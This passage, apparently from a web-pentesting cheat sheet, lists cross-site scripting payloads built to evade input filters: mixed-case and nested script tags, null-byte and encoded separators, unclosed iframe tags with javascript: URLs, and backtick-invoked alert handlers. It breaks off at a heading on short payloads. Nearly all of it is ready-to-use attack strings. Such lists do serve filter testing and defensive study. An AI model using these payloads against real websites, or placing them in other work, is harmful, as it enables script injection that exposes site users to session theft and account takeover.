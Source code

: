 ```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```

### Length bypass \(XSS in 20chars\)
